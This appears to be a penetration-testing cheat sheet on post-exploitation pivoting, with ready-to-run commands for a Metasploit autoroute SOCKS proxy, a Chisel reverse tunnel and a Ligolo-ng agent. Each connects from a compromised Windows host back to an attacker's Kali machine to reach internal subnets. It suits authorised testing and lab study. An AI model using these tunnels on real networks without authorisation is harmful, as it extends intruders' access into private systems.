 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Port_Forward
---
```


<span style="font-size: 35px; color:red"><b>Port Forward</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Metasploit</b></span>
Once you get the meterpreter session running:
```shell
use multi/manage/autoroute
```
set CMD audoadd and SESSION and 
```shell
use auxiliary/server/socks_proxy
```
with SRVPORT 1080 and VERSION 5.

Then run commands with <span style="color:red">proxychains4</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Chisel</b></span>
On Kali:
```shell
chisel server --reverse -port 8080
```
On Windows:
```shell
chisel.exe client <kali_ip>:8080 R:1080:socks
```

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Ligolo-ng</b></span>
VPN-like port forwarding.

Config:
```shell
sudo ip tuntap add user scare mode tun ligolo && sudo ip link set ligolo up
```

On Linux:
```shell
./proxy -selfcert
```

On Windows, upload <span style="color:red">agent.exe</span> and <span style="color:red">wintun.dll</span> and run:
```shell
agent.exe -connect <kali_ip>:11601 -ignore-cert
```

Once you get the session running, from <span style="color:red">proxy</span> run <span style="color:red">session</span> and select the right session, then run <span style="color:red">ifconfig</span> to check the interface (I.E. if the interface is <span style="color:red">192.168.0.30/24</span>):
```shell
sudo ip route add 192.168.0.0/24 dev ligolo
```
Add other routes in case the internal network has other reachable subnets.
Then run <span style="color:red">start</span>. No need to use <span style="color:red">proxychains</span>.
